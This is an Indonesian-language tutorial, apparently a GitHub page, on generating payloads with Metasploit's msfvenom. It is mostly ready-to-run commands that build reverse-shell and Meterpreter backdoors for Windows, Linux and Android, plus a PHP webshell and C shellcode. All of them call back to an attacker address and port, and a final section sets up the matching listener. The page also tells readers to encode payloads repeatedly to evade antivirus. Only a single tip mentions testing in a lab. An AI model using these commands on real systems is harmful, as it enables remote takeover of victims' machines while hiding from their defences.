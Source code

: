 # Membuat Payload dengan msfvenom

## A. Apa Itu msfvenom?

msfvenom adalah tool bawaan dari Metasploit yang digunakan untuk:

- Membuat payload eksploitasi (`reverse shell`, `Meterpreter`, `dll`)
- Meng-encode payload untuk menghindari antivirus
- Meng-output payload dalam berbagai format (`exe`, `elf`, `raw`, `c`, `dll`)

## B. Struktur Dasar Perintah msfvenom

```
msfvenom -p <payload> LHOST=<ip_attacker> LPORT=<port> -f <format_output> -o <nama_file>
```

**Keterangan:**

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Memilih jenis payload | 
| `LHOST` | IP lokal/attacker |
| `LPORT` |	Port listener di attacker |
| `-f` | Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |
| `-e` | Encoder yang digunakan |
| `-i` | Jumlah iterasi encoder |
| `-n` | Jumlah byte NOP (NOP sled) |

## C. Contoh Payload Windows

### 1. Payload Reverse TCP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

Output: `shell.exe` (bisa dijalankan di sistem Windows)

### 2. Payload Dilengkapi Encoder

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
```

Encoding `5 kali` untuk menghindari deteksi AV

## D. Contoh Payload Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp, php`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

## F. Menampilkan Semua Payload yang Tersedia

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)

Contoh Payload `PHP`:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

**Contoh:**

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

## Tips Tambahan

- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.
